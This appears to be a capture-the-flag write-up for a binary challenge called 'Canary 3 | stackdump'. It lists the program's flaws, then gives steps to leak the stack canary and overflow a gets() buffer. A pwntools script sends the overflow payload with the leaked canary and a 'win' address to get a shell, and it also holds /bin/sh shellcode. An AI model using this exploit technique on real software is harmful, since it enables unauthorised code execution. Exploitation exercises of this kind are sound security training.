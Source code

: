 ref: 6 | Canary 3 | stackdump
===========================

General overview of problems faced
-------------------------------------
- I had to learn to navigate IDA to reverse engineer the binary and understand what was happening

List of vulnerabilities
--------------------
1. The program lists information about a memory pointer on the stack at esp+35
2. Arbitrary memory can be printed use the program by inputing the address to where you want to read. This allows a user to leverage the previous vulnerability in order to calculate the address pointer to the canary and read the canary.
3. The program uses a fixed buffer with gets to take input when requesting "option a". This means a user can overflow the buffer and overflow the return address of the main function.
4. It is also possible to exploit the "len input" which is then converted into an "int" and then passed as argument to the fread function. No length check is made, therefore the user could request 10000 bytes of input and it would allow you to 'fread' 10000 bytes of input into a fixed a size buffer...


Steps to exploit
------------------
1. Use the given address to calculate the canary address. The given pointer is at esp+35 and the canary is at esp+140, therefore we need to add 105 to the given address.
2. Input the calculated canary address. (option "a" in the main menu of the program)
3. Get the program to print out the value at the canary address (option "b" in the main menu)
4. Save the 4 bytes of canary
5. Select option "a" and input 96 bytes of data, then input the canary value, add 12 bytes of offset data and then input the address of the win function in little endian format
6. Select option "q" from the main menu.
7. Congratulations! You now have a shell!

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

NOP_OPERATOR = '\x90'
SHELLCODE = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'

LEN_SHELL = len(SHELLCODE)

def main():
    target = "localhost"
    port = "6003"
    r = remote( target, port )

    r.recvuntil("a useful stack pointer ")
    base_pointer = int(r.recvline().strip(), 16)
    canary_pointer = base_pointer + 105

    r.sendline('a')
    r.sendline('4')
    r.sendline(p32(canary_pointer))

    r.recvrepeat(0.2)

    r.sendline('b')
    canary = r.recvline().strip()[22:26]
    print canary


    buf_len = 140-44 # 140 (esp+140 = canary || esp+44 = start of "len" buffer)
    win = 0x80486cd
    offset = 12 # 0xffffd5bc - 0xffffd5cc = -16 (12 offset to ret + 4 canary)

    r.sendline('a')
    r.sendline(
        NOP_OPERATOR * buf_len
        + str(canary)
        + NOP_OPERATOR * offset
        + p32(win)
    )

    r.sendline('d') # quit the program and trigger the jump

    r.interactive()

if __name__ == '__main__':
    main()

```
